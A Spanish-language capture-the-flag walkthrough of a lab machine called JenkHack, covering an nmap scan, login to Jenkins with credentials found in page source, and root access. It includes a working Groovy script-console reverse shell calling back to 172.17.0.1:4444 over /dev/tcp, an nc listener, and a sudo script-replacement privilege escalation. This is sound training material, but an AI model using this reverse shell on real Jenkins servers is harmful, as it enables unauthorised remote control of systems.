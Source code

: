#MÁQUINA JENKHACK

Lo primero que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto.JPG)

![NMAP2](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto2.JPG)

Podemos ver que estan abiertos 3 puertos web, el 80, el 443 y el 8080, empezaremos por el puerto 80:

![WEB](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto3.JPG)

A primera vista no vemos nada extraño, sin embargo, si miramos el codigo fuente encontramos lo que pueden ser unas credenciales de un usuario admin:

![CRED](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto4.JPG)

Ademas, si miramos el contenido del puerto 8080 observamos que es el panel de login de Jenkins, asi que vamos a probar esas credenciales a ver si conseguimos entrar:

![ADMIN](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto5.JPG)

Hemos entrado genial, lo siguiente sera buscar informacion sobre como podemos ganar acceso a la maquina una vez hemos conseguido loguearnos. Tras un rato buscando encontre esta pagina que explica paso a paso que hacer:

https://exploit-notes.hdks.org/exploit/web/jenkins-pentesting/

Si seguimos los pasos que nos dice y nos ponemos a la escucha:

```shell
nc -lvnp 4444
```

```shell
r = Runtime.getRuntime()
p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/172.17.0.1/4444; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
![SCRIPT](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto6.JPG)

![IN](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto7.JPG)

Ya estamos dentro de la máquina, por lo que primero que deberemos de hacer será realizar un tratamiento de la tty:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

Una vez tratada la terminal ya podemos empezar a trabajar. Despues de un rato buscando encontre algo dentro del directorio /var/www:

![NOTE](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto8.JPG)

Tenemos la contraseña del usuario jenkhack, sin embargo, esta se encuentra encriptada, para ver el texto original pegaremos la contraseña en la pagina de CyberChef:

https://gchq.github.io/CyberChef/

![CYBER](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto9.JPG)

Tenemos contraseña, vamos a probarla:

![USER](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto10.JPG)

Ahora somos el usuario jenkhack, ejecutaremos el comando sudo -l para ver si podemos ejecutar algo como root:

![SUDO](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto11.JPG)

Podemos ejecutar bash como root, probamos a hacerlo y... no funciona, pero vemos que ejecuta un comando en otra ruta:

![UY](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto12.JPG)

Iremos a esa ruta a veremos que contiene ese script:

![ALMOST](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto13.JPG)

Es un simple script en bash, por lo que podemos modificarlo para que cuando ejecutemos bash ejecute este script pero modificado por nosotros y de este modo nos convirtamos en root.

Si tratamos de modificarlo vemos que no tenemos permisos para ello, por lo que nos lo cargamos y creamos uno que tenga el mismo nombre (IMPORTANTE) y una vez hayamos escrito el script le daremos permiso de ejecucion con el comando chmod:

![CYBER](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto14.JPG)

Ejecutamos ahora bash como root y...:

![ROOT](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto15.JPG)

Y ya somos root!
